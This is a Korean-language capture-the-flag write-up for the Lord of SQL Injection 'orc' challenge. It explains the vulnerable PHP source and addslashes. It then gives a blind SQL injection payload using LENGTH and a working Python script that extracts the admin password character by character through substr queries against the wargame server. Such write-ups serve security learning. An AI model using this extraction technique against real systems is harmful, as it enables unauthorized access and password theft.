 # Lord of SQL Injection No.4 - orc

## 문제 출제의도

Blind SQL Injection을 할 수 있는지 확인한다.

## 소스 코드 분석
```php
<?php 
    include "./config.php"; 
    login_chk(); 
    dbconnect(); 
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
    $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
    echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if($result['id']) echo "<h2>Hello admin</h2>"; 
    $_GET[pw] = addslashes($_GET[pw]); 
    $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
    highlight_file(__FILE__); 
?>
```
* preg_match 로 "prob","_",".","()"를 걸러낸다.

* GET 메소드로 입력한 pw가 직접 쿼리에 들어간다.

* id의 값이 0을 제외한 모든 값이 즉, 참으로 판단되는 모든것들은 모두 Hello admin을 출력

* 쿼리의 pw값과 데이터베이스의 pw가 일치하면 해결되는 문제이다.

### addslashes
addslashed함수는 DB 상에서 쓰이는 ', ", \, NULL 같은 질의 문자들의 앞에 \를 붙힌 문자열을 반환한다.

데이터베이스에서 질의용이 아닌 데이터를 사용할때 질의 문자가 사용되면 일반 문자로 표현하기 위해 \를 붙힐때 자주 사용

## 문제 해결방안
* LENGTH함수를 이용하여 pw의 길이를 확인한다.
…?pw =' or id='admin' and LENGTH(pw)=8 -- -을 하게 되면 pw의 길이가 8자가 맞기 때문에 참을 의미하므로 Hello admin이라는 결과를 출력하게 된다.

* substr을 이용하여 pw를 추출한다. (주의 할점은 or문 뒤에 id='admin'을 꼭해주어야 한다. 그렇지 않다면 다른 계정의 pw를 받아오기 때문이다.)

* 이를 python 3.x코드로 풀이하였다.
```python
    import http.client
    result=''
    leng=8 # 원래는 0이여야 하지만 pw의 문자열길이가 8임을 알았기에 8
    header={'Cookie':' '} #로그인에 이용할 쿠키값
    string="0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!@#$%^&*()_-=+" #pw가 될수있는 값들
    '''
    for i in range(1,100) :
        length='/orc_47190a4d33f675a601f8def32df2583a.php?pw=%27%20or%20length(pw)='+str(i)+' and%20id=%27admin'
        conn=http.client.HTTPConnection('los.eagle-jump.org')
        conn.request('GET',length,'',header)
        data=conn.getresponse().read()
        if "Hello admin" in data.decode():
            leng = i
            print ("pw length: "+str(i))
            break
            length의 길이를 구하는 for문인데 이미 LENGTH함수로 구했기 떄문에 패스함
    '''
    for i in range(1,leng+1): # 각 pw의 한자한자를 찾는 for문
        for j in range(0,76): # pw가 될수있는 값들
            substr='/orc_47190a4d33f675a601f8def32df2583a.php?pw=%27%20or%20substr(pw,'+ str(i) +',1)='+'%27'+ str(string[j]) +'%27'+'and%20id=%27admin' #반복하며 서브스트링을 만들어줌
            conn=http.client.HTTPConnection('los.eagle-jump.org') # 보안서버와 통신을 하기위해 사용하는 클래스
            conn.request('GET',substr,'',header) # 연결 성공시 인스턴스 리턴
            data=conn.getresponse().read()
            if 'Hello admin' in data.decode():
                result=result+string[j] # pw값을 만들어줌
                print ('substr(pw,'+str(i)+',1)= '+str(string[j])) # pw값을 하나 출력
                break
    print ('Password is '+result) #pw결괏값 출력
```
를 하면 결괏값이 나오게된다.